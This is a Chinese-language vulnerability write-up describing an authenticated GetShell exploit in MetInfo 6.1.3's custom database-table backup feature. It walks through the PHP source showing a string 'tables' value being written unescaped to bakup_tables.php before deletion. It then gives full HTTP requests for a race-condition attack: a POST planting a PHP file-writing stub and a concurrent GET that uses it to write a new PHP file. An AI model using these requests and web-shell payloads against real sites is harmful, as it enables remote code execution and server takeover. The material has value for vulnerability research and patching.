

# MetInfo6.1.3自定义备份数据表GetShell

还以为能拿个CVE，结果撞洞了。。。。

管理后台->安全->备份与恢复->自定义备份数据表->开始备份数据 

```http
POST /MetInfo/admin/index.php?lang=cn&anyid=13&n=databack&c=index&a=dopacktable HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:66.0) Gecko/20100101 Firefox/66.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1/MetInfo/admin/index.php?lang=cn&anyid=13&n=databack&c=index&a=doselecttable
Content-Type: application/x-www-form-urlencoded
Content-Length: 1219
Connection: close
Cookie: PHPSESSID=1a1f2b8458c504607d55d6f44bbef6e7; met_auth=a9f3GqtRlo%2BCkI6QOhDnzztUTZ9r%2FVcQvJ2zMS%2FDMqqxnK0zlrwKNao21H7ga9SXW6ZcAUQc5uk8Tdwf6XM8IoD4; met_key=gHS7CS0
Upgrade-Insecure-Requests: 1

tables%5B%5D=met_admin_array&tables%5B%5D=met_admin_column&tables%5B%5D=met_admin_table&tables%5B%5D=met_app&tables%5B%5D=met_app_config&tables%5B%5D=met_app_plugin&tables%5B%5D=met_applist&tables%5B%5D=met_column&tables%5B%5D=met_config&tables%5B%5D=met_cv&tables%5B%5D=met_download&tables%5B%5D=met_feedback&tables%5B%5D=met_flash&tables%5B%5D=met_flist&tables%5B%5D=met_ifcolumn&tables%5B%5D=met_ifcolumn_addfile&tables%5B%5D=met_ifmember_left&tables%5B%5D=met_img&tables%5B%5D=met_infoprompt&tables%5B%5D=met_job&tables%5B%5D=met_label&tables%5B%5D=met_lang&tables%5B%5D=met_lang_admin&tables%5B%5D=met_language&tables%5B%5D=met_link&tables%5B%5D=met_list&tables%5B%5D=met_message&tables%5B%5D=met_mlist&tables%5B%5D=met_news&tables%5B%5D=met_online&tables%5B%5D=met_otherinfo&tables%5B%5D=met_para&tables%5B%5D=met_parameter&tables%5B%5D=met_plist&tables%5B%5D=met_product&tables%5B%5D=met_skin_table&tables%5B%5D=met_sms&tables%5B%5D=met_templates&tables%5B%5D=met_ui_config&tables%5B%5D=met_ui_list&tables%5B%5D=met_user&tables%5B%5D=met_user_group&tables%5B%5D=met_user_group_pay&tables%5B%5D=met_user_list&tables%5B%5D=met_user_other&chkAll=check&dosubmit=%E5%BC%80%E5%A7%8B%E5%A4%87%E4%BB%BD%E6%95%B0%E6%8D%AE
```

a=dopacktable，定位到函数**dopacktable()**

```php
	/*打包自定义数据表*/
  	public function dopacktable(){
	    global $_M;
	    $this->dogetsql($_M[form][tables]);
	    turnover("{$_M[url][own_form]}a=dorecovery",$_M[word][setdbBackupOK]);
  	}
```

"$_M\[form][tables]"为数据处理后的tables，"\$_M['form']"定义于/app/system/include/class/common.class.php

```php
	protected function load_form() {
		global $_M;
		$_M['form'] =array();
		isset($_REQUEST['GLOBALS']) && exit('Access Error');
		foreach($_COOKIE as $_key => $_value) {
			$_key{0} != '_' && $_M['form'][$_key] = daddslashes($_value);
		}
		foreach($_POST as $_key => $_value) {
			$_key{0} != '_' && $_M['form'][$_key] = daddslashes($_value);
		}
		foreach($_GET as $_key => $_value) {
			$_key{0} != '_' && $_M['form'][$_key] = daddslashes($_value);
		}
		if(is_numeric($_M['form']['lang'])){//伪静态兼容
			$_M['form']['page'] = $_M['form']['lang'];
			$_M['form']['lang'] = '';
		}
		if($_M['form']['metid'] == 'list'){
			$_M['form']['list'] = 1;
			$_M['form']['metid'] = $_M['form']['page'];
			$_M['form']['page'] = 1;
		}
		if(!preg_match('/^[0-9A-Za-z]+$/', $_M['form']['lang']) && $_M['form']['lang']){
			echo "No data in the database,please reinstall.";
			die();
		}
	}
```

**daddslashes()** 会使用**addslashes()** 对预定义字符进行转义

```php
function daddslashes($string, $force = 0) {
	!defined('MAGIC_QUOTES_GPC') && define('MAGIC_QUOTES_GPC', get_magic_quotes_gpc());
	if(!MAGIC_QUOTES_GPC || $force) {
		if(is_array($string)) {
			foreach($string as $key => $val) {
				$string[$key] = daddslashes($val, $force);
			}
		} else {
			if(!defined('IN_ADMIN')){
				$string = trim(addslashes(sqlinsert($string)));
			}else{
				$string = trim(addslashes($string));
			}
		}
	}
	return $string;
}
```

跟进到**dogetsql()** ，当fileid为1时会进入**docache_write()** 

```php
	public function dogetsql($table='') {
		global $_M;
		if($_M['form']['tables'] && !$table)$table = $_M['form']['tables'];
		$localurl=$_M['config']['met_weburl'];
		$tablepre=$_M['config']['tablepre'];
		$fileid = isset($_M['form']['fileid']) ? $_M['form']['fileid'] : 1;
		if($table){
			$tables=$table;
		}else{
			$tables=$this->dotableprearray($tablepre);
		}

		$sizelimit=2048;
		if($fileid==1){
			$random = isset($_M['form']['random']) ? $_M['form']['random'] : met_rand(6);
			$this->docache_write('bakup_tables.php', $tables);
		}elseif(!$tbl){
			$random = isset($_M['form']['random']) ? $_M['form']['random'] : met_rand(6);
			$allidlist=explode('|',$tablestx);
			for($i=0;$i<count($allidlist)-1;$i++){
				$tables[$i]=$allidlist[$i];
			}
		}
		$sqldump = '';
		$tableid = isset($_M['form']['tableid']) ? $_M['form']['tableid'] : 0;
		$startfrom = isset($_M['form']['startfrom']) ? intval($_M['form']['startfrom']) : 0;
		$tablenumber = count($tables);
		for($i = $tableid-1; $i < $tablenumber && strlen($sqldump) < $sizelimit * 1000; $i++){
			$sqldump .= $this->dosql_dumptable($tables[$i], $startfrom, strlen($sqldump));
			$startfrom = 0;
		}
		$zip_list = 1;
		if(trim($sqldump)){
			$version='version:'.$_M['config']['metcms_v'];
			$sqldump = "#MetInfo.cn Created {$version} \n#$localurl\n#$tablepre\n# --------------------------------------------------------\n\n\n".$sqldump;
			$tableid = $i;
			$db_settings = parse_ini_file(PATH_CONFIG.'config_db.php');
				@extract($db_settings);
			$filename = $con_db_name.'_'.date('Ymd').'_'.$random.'_'.$fileid.'.sql';
			$zipname  = $con_db_name.'_'.date('Ymd').'_'.$random.'_'.$fileid;
			$fileid++;
			$backup = PATH_WEB.ADMIN_FILE.'/databack/';
			if(!file_exists($backup)){
				mkdir($backup,0777,true);
			}
			$bakfile = $backup.$filename;
			if(!is_writable($backup))turnover("{$_M[url][own_form]}a=doindex",$_M[word][setdbTip2].'databack/'.$_M[word][setdbTip3]);
			file_put_contents($bakfile, $sqldump);
			if(!file_exists(PATH_WEB.ADMIN_FILE.'databack/sql'))@mkdir (PATH_WEB.ADMIN_FILE.'/databack/sql', 0777);
			$sqlzip=PATH_WEB.ADMIN_FILE.'/databack/sql/'.$_M[config][met_agents_backup].'_'.$zipname.'.zip';
			$archive = new PclZip($sqlzip);
			$zip_list = $archive->create($backup.$filename,PCLZIP_OPT_REMOVE_PATH,$backup);
		}
		if(trim($sqldump)){
			header('location:index.php?n=databack&c=index&a=dopackdata&lang='.$_M['lang'].'&tables='.$_M['form']['tables'].'&tableid='.$tableid.'&fileid='.$fileid.'&startfrom='.$this->startrow.'&random='.$random.'&anyid='.$anyid.'&cs='.$cs);
		}
		$this->docache_delete('bakup_tables.php', $tables);
		return $zip_list;
	}
```

**docache_write('bakup_tables.php', $tables)** 当$string不为数组时会直接调用**file_put_contents()** 将\$string写入bakup_tables.php

```php
   function docache_write($file, $string, $type = 'array'){
   	    global $_M;
		if(is_array($string))
		{
			$type = strtolower($type);
			if($type == 'array')
			{
				$string = "<?php\n return ".var_export($string,TRUE).";\n?>";
			}
			elseif($type == 'constant')
			{
				$data='';
				foreach($string as $key => $value) $data .= "define('".strtoupper($key)."','".addslashes($value)."');\n";
				$string = "<?php\n".$data."\n?>";
			}
		}
		file_put_contents(PATH_WEB.ADMIN_FILE.'/databack/'.$file, $string);
	}
```

返回到**dogetsql()** 在512行调用**docache_delete()** 删除bakup_tables.php

```php
  	function docache_delete($file){
		global $_M;
		return @unlink(PATH_WEB.ADMIN_FILE.'/databack/'.$file);
	}
```

所以我们可以使tables的值为字符串并且fileid=1，然后利用条件竞争的方式绕过删除写入shell；因为tables的值在**daddslashes()** 中进行了转义(单双引号和反斜杠)，使用外部传递变长参数的方式写入文件：

第一个线程：

```http
POST /MetInfo/admin/index.php?lang=cn&anyid=&n=databack&c=index&a=dopacktable&fileid=1 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:66.0) Gecko/20100101 Firefox/66.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1/MetInfo/admin/index.php?lang=cn&anyid=&n=databack&c=index&a=doselecttable
Content-Type: application/x-www-form-urlencoded
Content-Length: 42
Connection: close
Cookie: PHPSESSID=1a1f2b8458c504607d55d6f44bbef6e7; met_auth=aadaNR8WoBNTBbGJez4MQUYYsBYgGTctcawuhifX7%2Fv7HzmU9oDH%2BRo1EUvMhxh7%2BTnL7CWF7ryCqIXDDloBMeWG; met_key=I36XO4Z
Upgrade-Insecure-Requests: 1

tables=<?php file_put_contents(...$_GET)?>
```

第二个线程：

```http
GET /MetInfo/admin/databack/bakup_tables.php?1=test.php&2=%3C?php%20phpinfo();?%3E HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:66.0) Gecko/20100101 Firefox/66.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=1a1f2b8458c504607d55d6f44bbef6e7; met_auth=a9f3GqtRlo%2BCkI6QOhDnzztUTZ9r%2FVcQvJ2zMS%2FDMqqxnK0zlrwKNao21H7ga9SXW6ZcAUQc5uk8Tdwf6XM8IoD4; met_key=gHS7CS0
Upgrade-Insecure-Requests: 1

```



成功写入：


